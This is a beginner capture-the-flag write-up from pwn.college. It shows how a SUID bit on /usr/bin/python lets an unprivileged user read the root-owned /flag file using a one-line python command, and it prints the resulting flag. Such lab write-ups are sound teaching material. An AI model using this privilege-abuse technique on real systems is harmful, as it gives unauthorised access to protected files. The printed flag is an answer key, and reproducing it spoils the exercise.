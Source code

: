 # Challenge Name: python
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/python`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/python
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/python
```

- The `s` in `-rws` indicates it's a SUID binary.
- `python` runs with **root privileges**.

## 🚀 Exploitation

We can simply use `python` to open and read contents of /flag to reveal the flag

```bash
python -c 'print(open("/flag").read())'
```

Output:
```
pwn.college{AQMckT_nE44QxyTRplhesZU7x-T.dRDOxwSM0IzMyEzW}
```
